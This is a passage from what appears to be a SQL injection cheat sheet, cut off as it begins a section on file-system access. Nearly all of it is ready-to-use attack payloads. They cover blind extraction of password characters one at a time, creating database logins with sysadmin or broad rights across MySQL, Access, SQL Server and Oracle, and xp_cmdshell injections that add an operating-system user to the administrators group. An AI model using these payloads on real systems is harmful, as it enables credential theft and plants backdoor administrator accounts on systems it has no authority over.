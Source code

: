 ###### Check if second character in password is between '0' and '9'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password LIKE 'd[0-9]%' AND ID=2)
```

###### Check if second character in password is '4'

```sh
2 and 1=(SELECT 1 FROM UserInfo WHERE Password LIKE 'd[4]%' AND ID=2)
```

#### Creating database accounts

##### MySQL

```sh
INSERT INTO mysql.user (user, host, password) VALUES ('john', 'localhost', PASSWORD('toor'))
```

##### Microsoft Access

```sh
CREATE USER john IDENTIFIED BY 'toor'
```

##### Microsoft SQL Server

```sh
exec sp_addlogin 'john', 'toor'
exec sp_addsrvrolemember 'john', 'sysadmin'
```

##### Oracle

```sh
CREATE USER john IDENTIFIED BY toor TEMPORATY TABLESPACE temp DEFAULT TABLESPACE users;
GRANT CONNECT TO john;
GRANT RESOURCE TO john;
```

#### Interacting with the operating system

##### Creating OS accounts in MSSQL

###### Create user
```sh
';exec master..xp_cmdshell "net user john toor /add";--
```

###### Put new user into the administrators group

```sh
';exec master..xp_cmdshell "net localgroup administrators john /add";--
```

#### Interacting with the file system

